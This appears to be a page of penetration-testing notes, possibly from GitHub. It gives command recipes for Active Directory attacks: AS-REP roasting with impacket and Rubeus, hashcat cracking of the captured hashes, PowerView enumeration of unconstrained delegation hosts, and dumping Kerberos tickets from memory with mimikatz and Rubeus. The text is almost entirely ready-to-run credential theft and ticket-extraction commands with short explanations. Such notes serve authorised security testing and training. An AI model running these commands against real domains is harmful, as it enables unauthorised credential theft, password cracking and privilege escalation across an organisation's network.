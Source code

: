 
### AS-REP Roasting
```bash
# save output to script file for later
script -a asrep1.txt

# run to get hashes without creds and with creds
impacket-GetNPUsers -no-pass DOMAIN.LOCAL/USER -format hashcat

impacket-GetADUsers -dc-ip <dc-ip> 'domain.local/USER:PASS' -all |awk '{print $1}' > domainusers.txt
impacket-GetNPUsers 'DOMAIN.INTERNAL/USER:PASS' -format hashcat -request -usersfile domainusers.txt 

# Locally with rubeus
Rubeus.exe asreproast /format:hashcat

hashcat -m 18200 asrephash.txt wordlisthere -o asreproast-cracked.txt -r rule.rule --session asrep1 
```

### Delegation

#### Unconstrained Delegation

To pull an unconstrained delegation attack off a few tools and some enumeration will be needed.

With a compromised host we can import the PowerView enumeration script to see what host are set for unconstrained delegation. So first we import the script.

```powershell
Import-Module PowerView.ps1
```

Then we query for the host, but ignore any Domain Controllers that show up here because they are not useful for privilege escalation.

```powershell
Get-NetComputer -Unconstrained
```

Then you need to either abuse existing tickets in memory or find a way to add a new one.

Existing
```powershell
# Using MimiKatz
.\mimikatz.exe
privilege::debug

sekurlsa::tickets /export
#or
kerberos::list /export

# Using Rubeus to dump all tickets
.\Rubeus.exe dump
# then 
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<BASE64_TICKET>"))


.\Rubeus.exe triage

# dump specific by luid
.\Rubeus.exe dump /service:krbtgt /luid:luid /nowrap
# then 
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<BASE64_TICKET>"))

# Using Rubeus to monitor for tickets every 3 seconds.
.\Rubeus.exe monitor /interval:3 /nowrap
```